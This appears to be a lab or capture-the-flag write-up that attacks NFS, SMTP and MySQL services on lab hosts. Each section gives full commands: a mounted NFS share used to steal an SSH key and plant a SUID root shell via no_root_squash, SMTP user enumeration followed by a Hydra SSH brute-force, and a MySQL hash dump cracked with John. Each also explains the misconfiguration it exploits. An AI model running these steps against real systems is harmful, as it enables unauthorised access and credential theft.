## NFS (Network File System)
The **NFS (Network File System)** protocol is a client-server architecture standard that allows a computer to access files over a network with the same transparency as if they were on a local storage drive.

### 1. The Interaction Process: Mounting
For a client to interact with a remote directory as if it were a physical device (like a hard drive or a USB), the **mounting** process is used.
* During this process, the client's mount service communicates with the server's mount daemon to establish a logical link point in the local directory tree.

### 2. Data Abstraction and Representation
NFS does not manage files by their internal text path in every operation; instead, it uses a **File Handles** system.
* A File Handle is a unique token the server gives the client to represent each file or directory, allowing subsequent requests to be fast and precise without ambiguity in the server's file system.

### 3. Communication Protocol: RPC
The backbone of communication in NFS is the **RPC (Remote Procedure Call)** protocol.
* RPC allows a program on the client to execute code on the server as if it were a local function. NFS uses RPC to send read, write, and file management commands over the network.

### 4. Access Control and Permissions
Unlike other protocols that use complex session credentials, NFS (especially in versions 2 and 3) relies on the attributes sent by the client. The server takes the following as main parameters to validate permissions:
* **User ID / Group ID (UID / GID)**.

### 5. Interoperability and Versions
NFS is an OS-agnostic protocol, allowing for high interoperability:
* **Cross-platform:** A Windows server can share resources with Linux clients, and vice versa, including macOS and UNIX ecosystems.
* **Technical Evolution:** The most robust and current version of the protocol is NFSv4.2 (NFS version 4, revision 2), which introduced critical improvements in security, sparse file support, and more efficient server operations.


## NFS Enumeration

### Reconnaissance Phase (Port Scanning)
```bash
nmap -n -Pn -sV -sC -p- --min-rate 3000 10.64.182.168
```


Port **2049/tcp (NFS)** was detected open, along with port **111 (rpcbind)** and **22 (SSH)**. The presence of `rpcbind` and `mountd` confirmed that the server was ready to accept network connections for file sharing.

### NFS Service Enumeration
We aim to list the "exported resources" (shared folders) by the server.
```bash
/usr/sbin/showmount -e 10.64.182.168
```


It was discovered that the `/home` directory was configured with a wildcard `*`, meaning that any host on the network could mount it without IP restrictions.

### Mounting and Data Extraction
We seek to access the content of the shared files to look for sensitive information.

**Commands:**

1. Create a local mount point:
```bash
mkdir /tmp/mount
```

2. Connect the remote resource:
```bash
sudo mount -t nfs 10.64.182.168:/home /tmp/mount/ -nolock
```

By navigating the mounted resource, the `cappucino` user folder was identified. Inside its hidden `.ssh` directory, an **RSA private key (`id_rsa`)** was found.




## Obtaining Initial Access (SSH Exploitation)

**Commands:**

1. Extract the key:
```bash
cp id_rsa /home/kali
```

2. Restrict permissions to meet SSH requirements:
```bash
chmod 600 id_rsa
```

3. Direct connection:
```bash
ssh -i id_rsa cappucino@10.64.182.168
```



Successful access to the system was achieved, providing an interactive shell as the user `cappucino`.

## NFS Exploitation

### Exfiltration of a Compatible Binary
We aim to obtain the original `bash` executable from the server to avoid architecture compatibility issues when re-injecting it.
```bash
scp -i id_rsa cappucino@10.64.182.168:/bin/bash /home/kali/Downloads/bash
```

### Injection into the Shared Resource
The binary is placed into the server's file system through the NFS mount we created during the enumeration phase.
```bash
cp /home/kali/Downloads/bash /tmp/mount/cappucino/
```

### Metadata Manipulation (Root Privileges)
Now, we change the file owner to `root` and enable the SUID bit (`+s`). This was only possible because the NFS server had the `no_root_squash` option enabled.
```bash
chown root /tmp/mount/cappucino/bash
chmod +s /tmp/mount/cappucino/bash
```


### Final Verification and Execution (In the SSH session)
Execute the created "backdoor". The `-p` parameter is critical so that bash does not drop root privileges when it detects that the real and effective UIDs are different.
```bash
ls -la bash # To confirm the -rwsr-sr-x permissions
./bash -p
cd /root
cat root.txt
```



### Analysis of the Attack

**What vulnerability or misconfiguration was found?**
The critical vulnerability was the presence of the `no_root_squash` option in the NFS export configuration. By design, NFS should "squash" the root privileges of a remote client, converting them into a powerless anonymous user. By having it disabled, the server trusted that the root user of the attacking machine (Kali) had legitimate authority to create files and assign root permissions on the victim server.

**What tools were used and why?**
* **SCP (Secure Copy):** To securely extract the bash binary from the target system, ensuring the exploit was compatible with the OS (Ubuntu 20.04).
* **chmod/chown:** Standard Linux tools used to manipulate file permissions. They were the primary weapon to enable the SUID bit.
* **SSH:** To maintain persistence and execute the modified binary from within the system.

**How was access achieved or the hidden data found?**
Root access was achieved through a Privilege Escalation via SUID. The "hidden data" (the root flag) was found by navigating to the root of the system (`/`) and entering the `/root` directory, which is protected by permissions that only the superuser can read. Success relied on understanding the Linux file hierarchy and the misconfigured trust relationship in the NFS protocol.


## Understanding SMTP
The **SMTP (Simple Mail Transfer Protocol)** is the application layer standard designed for the transfer and delivery of electronic mail (emails) across a network. While SMTP is exclusively responsible for sending (outgoing), protocols like POP and IMAP handle receiving and synchronization.

### 1. The Sending and Connectivity Process
SMTP communication follows a structured flow to ensure the message reaches its destination:
* **Process Initiation:** The first technical step is the **SMTP Handshake**. In this phase, the client connects to the domain's server to validate the session.
* **Standard Port:** By default, this exchange occurs over port **25**.
* **Availability Management:** If the recipient's server is unavailable at the time of sending, the email is not immediately discarded; it is redirected to an **SMTP Queue** to retry delivery later.

### 2. Storage and Retrieval
Once the recipient's SMTP server validates the domain and user, the "transport" process ends:
* **Final Server:** The email is delivered and ultimately stored on the POP or IMAP server. From there, the end user can download or synchronize it on their device.

### 3. System Interoperability
SMTP is an OS-agnostic protocol, allowing for full integration in corporate environments:
* **Platforms:** Both Windows servers and Linux machines can run SMTP server software (such as Postfix, Exim, or Microsoft Exchange) without issues.

## SMTP Enumeration

### Initial Reconnaissance (Port Scanning)
Identify active services and versions to determine attack vectors.
```bash
nmap -n -Pn -sV -sC -p- --min-rate 3000 10.64.172.217
```

**Finding:** Port `25/tcp` was detected open, running the `Postfix smtpd` service. Port `22/tcp` (SSH) was also identified, suggesting that any user found in SMTP could be a target for an SSH brute-force attack.

### Server Identification (Banner Grabbing)
We seek to confirm the exact MTA version and obtain the server's internal domain name.
```bash
msfconsole
use auxiliary/scanner/smtp/smtp_version
set RHOSTS 10.64.172.217
run
```

**What tool was used and why?** **Metasploit Framework** was used because it centralizes automated scanning modules that allow for standardized and efficient interaction with the SMTP protocol.

**Finding:** The server responded with the banner: `220 polosmtp.home ESMTP Postfix (Ubuntu)`. The system name was identified as `polosmtp.home`.

### User Enumeration (Username Harvesting)
Identify valid user accounts on the operating system through the mail protocol.
```bash
use auxiliary/scanner/smtp/smtp_enum
set USER_FILE /usr/share/seclists/Usernames/top-usernames-shortlist.txt
run
```


**What vulnerability or misconfiguration was found?**
Enabling the `VRFY` (Verify) command in the Postfix configuration. In a secure environment, this command must be disabled to prevent external attackers from confirming the existence of users, which is known as an information disclosure vulnerability.

**How was access achieved or the hidden data found?**
It was achieved through a dictionary attack. By providing a list of common names from SecLists, the module sent individual requests to the server. The "hidden data" (the real user) was found because the server responded positively (Code 250) to the name `administrator`, while rejecting the others.


## SMTP Exploitation

### Brute-Force Attack
After obtaining the user `administrator` during the SMTP phase, we proceeded to launch a dictionary attack against the SSH service exposed on port 22.

**What tool was used and why?** We used Hydra, the industry-standard tool for this purpose. It was chosen for its ability to perform multiple parallel connections (speeding up the process) and its reliability when interacting with the SSH protocol.

**What vulnerability or misconfiguration was found?** A weak password policy (use of predictable credentials) was identified, combined with the absence of defense mechanisms like Fail2Ban or account lockouts after failed attempts. This allowed us to try thousands of combinations without being banned from the server.

**Executed Command:**
```bash
hydra -t 16 -l administrator -P /usr/share/wordlists/rockyou.txt -vV 10.64.172.217 ssh
```

### Credential Retrieval and Access
The Hydra attack was successful, filtering the valid password for the system.

**How was access achieved or the hidden data found?** Access was achieved by compromising credentials through the dictionary attack. Hydra successfully matched the user with the password `alejandro`, granting us a legitimate "key" to enter the server.

**Connection Command:**
```bash
ssh administrator@10.64.172.217
```


## Understanding MySQL
**MySQL** is a Relational Database Management System (RDBMS). Its function is to organize information into tables that relate to each other using keys. It relies on SQL (Structured Query Language), which is the standard for interacting with databases.

### Operating Model
It operates under a Client-Server model:
* **The Server:** Physically manages the files, security, and executes the instructions.
* **The Client:** Sends queries in SQL language to request, insert, or edit data.

### Applications and Environment
It is the core engine of the LAMP stack (Linux, Apache, MySQL, PHP), which is the foundation of millions of websites. Due to its flexibility, it runs on both Windows and Linux and is the preferred choice for web application back-ends.

## MySQL Enumeration

### Port Reconnaissance (Nmap)
```bash
nmap -n -Pn -sV -sC -p 3306 10.64.169.46
```

Port 3306 is open. The banner revealed that the server is running MySQL 8.0.42.

**What tool was used and why?** Nmap, to map the attack surface and confirm that the database service is accessible from the network.

### Query Automation (Metasploit)

**Commands:**
```bash
use auxiliary/admin/mysql/mysql_sql
set RHOSTS 10.64.169.46
set USERNAME root
set PASSWORD password
```

**What tool was used and why?** Metasploit (`mysql_sql`). It was chosen to automate the execution of SQL commands and format the responses clearly for the technical report.

### Version and Database Extraction
**Commands:**
```bash
set SQL show databases
run
```

**Results (Hidden Data):**
* **Version:** `8.0.42-0ubuntu0.20.04.1`
* **Databases:** 4 databases were enumerated (`information_schema`, `mysql`, `performance_schema`, `sys`).

**How was the data found?** By executing structural SQL queries that interrogate the system's metadata.

---

## MySQL Exploitation

### Hash Extraction (Data Dump)
We aim to understand the server's database structure and extract the encrypted credentials (hashes) of the system users to attempt privilege escalation or lateral movement.

**Commands:**
```bash
msfconsole
use auxiliary/scanner/mysql/mysql_hashdump
run
```


**What tool was used and why?** Metasploit Framework, because it automates querying complex internal tables and extracts encrypted credentials in seconds.

**How was the hidden data found?** Leveraging root privileges, the module queried the system table `mysql.user`, obtaining the password hash for `carl` as hidden data.

### Password Cracking (Offline Cracking)
Now, the cryptographic hash extracted from the database will be transformed into a plaintext password.

**Commands:**
```bash
echo "carl:*EA031893AA21444B170FC2162A56978BCEECE18" > hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

**What tool was used and why?** John the Ripper, as it allows for offline dictionary attacks, testing thousands of words per second on our own machine without alerting the server.

**How was the hidden data found?** Through a hash collision. The tool tested dictionary words until it exactly matched the captured hash, revealing the plaintext password: `doggie`.

### Operating System Access (Post-Exploitation)
Reuse the cracked password to obtain an interactive terminal (shell) on the underlying operating system and retrieve the final lab objective.

**Commands:**
```bash
ssh carl@10.64.169.46
cat MySQL.txt
```
